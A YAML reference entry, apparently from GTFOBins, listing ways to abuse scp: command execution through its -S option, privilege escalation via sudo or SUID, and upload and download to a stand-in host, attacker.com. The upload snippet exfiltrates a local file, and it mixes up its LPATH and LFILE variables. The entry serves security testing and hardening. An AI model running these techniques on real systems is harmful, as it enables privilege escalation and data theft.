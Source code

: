 ```yaml
---
functions:
  execute-non-interactive:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        scp -S $TF x y:
  sudo-enabled:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        sudo scp -S $TF x y:
  suid-limited:
    - code: |
        TF=$(mktemp)
        CMD="id"
        echo "$CMD" > "$TF"
        chmod +x "$TF"
        ./scp -S $TF a b:
  upload:
    - description: Send local file to a SSH server.
      code: |
        RPATH=user@attacker.com:~/where_to_save
        LPATH=file_to_send
        scp $LFILE $RPATH
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_get
        LFILE=where_to_save
        scp $RPATH $LFILE
---
```

